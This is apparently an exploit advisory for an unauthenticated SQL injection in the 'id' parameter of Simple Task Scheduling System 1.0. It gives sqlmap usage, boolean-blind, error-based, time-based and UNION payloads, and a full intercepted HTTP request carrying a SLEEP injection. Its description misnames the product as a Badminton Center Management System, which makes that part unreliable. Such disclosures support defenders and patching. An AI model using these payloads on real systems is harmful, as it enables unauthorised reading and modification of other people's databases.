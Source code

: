 # Exploit Title: Simple Task Scheduling System - 'id' SQL Injection (Unauthenticated)
# Date: 2022-05-13
# Exploit Author: Yusuf Kosan
# Vendor Homepage: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/tss.zip
# Version: 1.0
# Tested on: Windows 10 Pro + PHP 8.0.11, Apache 2.4.51

------------------------------------------------------------------------------------

1. Description:
----------------------

Badminton Center Management System allows SQL Injection via parameter 'id' in
/tss/admin/categories/manage_category.php. Exploiting this issue could allow an attacker to compromise
the application, access or modify data, or exploit latent vulnerabilities
in the underlying database.


2. Proof of Concept:
----------------------

In Burpsuite intercept the request from the affected page with
'id' parameter and save it like poc.txt Then run SQLmap to extract the
data from the database:

sqlmap.py -r poc.txt --dbms=mysql


3. Example payloads:
----------------------

Parameter: id (GET)

    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=test' AND 9297=(SELECT (CASE WHEN (9297=9297) THEN 9297 ELSE (SELECT 7413 UNION SELECT 9163) END))-- -

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=test' OR (SELECT 9795 FROM(SELECT COUNT(*),CONCAT(0x716a6a7a71,(SELECT (ELT(9795=9795,1))),0x717a766b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- sfrH

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: id=test' OR SLEEP(5)-- GpAd

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=test' UNION ALL SELECT CONCAT(0x716a6a7a71,0x50674e52555067637847655477786d547768554a727370717755764249787054587a794c4d586f6a,0x717a766b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -

4. Burpsuite request:
----------------------

GET /tss/admin/categories/manage_category.php?id=1%20%2b%20((SELECT%201%20FROM%20(SELECT%20SLEEP(25))A))%2f*%27XOR(((SELECT%201%20FROM%20(SELECT%20SLEEP(25))A)))OR%27%7c%22XOR(((SELECT%201%20FROM%20(SELECT%20SLEEP(25))A)))OR%22*%2f%20%2f*%20e0e2126f-64a0-4978-8793-4a2a83505579%20*%2f HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=fmfcovf7hgik2ujtn44q1clij5
Referer: http://localhost/tss/admin/?page=categories
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.0 Safari/537.36

